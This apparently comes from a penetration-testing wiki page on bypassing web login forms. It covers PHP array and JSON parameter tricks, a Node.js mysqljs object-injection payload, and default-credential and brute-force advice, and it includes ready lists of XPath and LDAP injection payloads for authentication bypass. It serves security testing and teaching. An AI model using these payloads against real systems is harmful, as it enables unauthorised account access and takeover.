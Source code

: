 # Login Bypass

## **Bypass regular login**

If you find a login page, here you can find some techniques to try to bypass it:

- Check for **comments** inside the page (scroll down and to the right?)
- Check if you can **directly access the restricted pages**
- Check to **not send the parameters** (do not send any or only 1)
- Check the **PHP comparisons error:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
- **Change content type to json** and send json values (bool true included)
  - If you get a response saying that POST is not supported you can try to send the **JSON in the body but with a GET request** with `Content-Type: application/json`
- Check nodejs potential parsing error (read [**this**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
  - Nodejs will transform that payload to a query similar to the following one: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` which makes the password bit to be always true.
  - If you can send a JSON object you can send `"password":{"password": 1}` to bypass the login.
  - Remember that to bypass this login you still need to **know and send a valid username**.
  - **Adding `"stringifyObjects":true`** option when calling `mysql.createConnection` will eventually b**lock all unexpected behaviours when `Object` is passed** in the parameter.
- Check credentials:
  - [**Default credentials**](../../generic-hacking/brute-force.md#default-credentials) of the technology/platform used
  - **Common combinations** (root, admin, password, name of the tech, default user with one of these passwords).
  - Create a dictionary using **Cewl**, **add** the **default** username and password (if there is) and try to brute-force it using all the words as **usernames and password**
  - **Brute-force** using a bigger **dictionary (**[**Brute force**](../../generic-hacking/brute-force.md#http-post-form)**)**

### SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **SQL injections**](../sql-injection/index.html#authentication-bypass).

In the following page you can find a **custom list to try to bypass login** via SQL Injections:

[[sql-login-bypass.md]]

### No SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **No SQL Injections**](../nosql-injection.md#basic-authentication-bypass)**.**

As the NoSQL Injections requires to change the parameters value, you will need to test them manually.

### XPath Injection authentication bypass

[Here you can find several tricks to bypass the login via **XPath Injection.**](../xpath-injection.md#authentication-bypass)

```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

### LDAP Injection authentication bypass

[Here you can find several tricks to bypass the login via **LDAP Injection.**](../ldap-injection.md#login-bypass)

```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```

### Remember Me

If the page has "**Remember Me**" functionality check how is it implemented and see if you can abuse it to **takeover other accounts**.

### Redirects

Pages usually redirects users after login, check if you can alter that redirect to cause an [**Open Redirect**](../open-redirect.md). Maybe you can steal some information (codes, cookies...) if you redirect the user to your web.

## Other Checks

- Check if you can **enumerate usernames** abusing the login functionality.
- Check if **auto-complete** is active in the password/**sensitive** information **forms** **input:** `<input autocomplete="false"`

## Automatic Tools

- [HTLogin](https://github.com/akinerkisa/HTLogin)

